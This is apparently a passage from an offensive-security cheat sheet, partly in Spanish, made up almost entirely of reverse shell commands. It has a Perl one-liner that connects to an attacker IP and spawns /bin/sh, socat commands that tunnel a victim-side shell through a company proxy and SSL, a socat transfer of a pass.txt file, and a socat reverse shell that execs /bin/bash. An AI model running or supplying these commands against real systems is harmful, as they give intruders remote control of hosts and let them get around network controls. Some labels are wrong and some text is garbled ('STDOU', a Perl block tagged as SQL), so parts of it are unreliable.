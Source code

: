 - Windows
	```sql
	perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	```
## **Socat**
- Reverse shell a través de proxy y encapsulada en SSL:
```bash
# Lado atacante
socat TCP-LISTEN:443 stdout

#Lado victima
proxy=your-company-proxy
cctrl=attacker_ip
socat TCP-LISTEN:44443,reuseaddr,fork,bind=127.0.0.1 PROXY:$proxy:$cctrl:443,proxyport=80
socat TCP-LISTEN:55522,reuseaddr,fork,bind=127.0.0.1 OPENSSL:127.0.0.1:44443,verify=0
```

## Socat

### Client
  ```bash
  socat - TCP4:>remote server's IP>:80
  ```
### Server
  ```bash
  sudo socat TCP4-LISTEN:443 STDOU
  ```
### Send a file
  ```bash
  sudo socat TCP4-LISTEN:443,fork file:pass.txt
  ```
  
### Receive a file
  ```bash
  sudo socat TCP4:<Server IP>:443 file:pass.txt,create
  ```
### Reverse Shell
  ```bash
  #Attacker's machine
  socat -d -d TCP4-LISTEN:443 STDOUT
  #The -d -d are used to add verbosity
  ```
  
  ```bash
  #Victim's machine
  socat TCP:<Attacker's IP>:443 EXEC:/bin/bash
  ```
  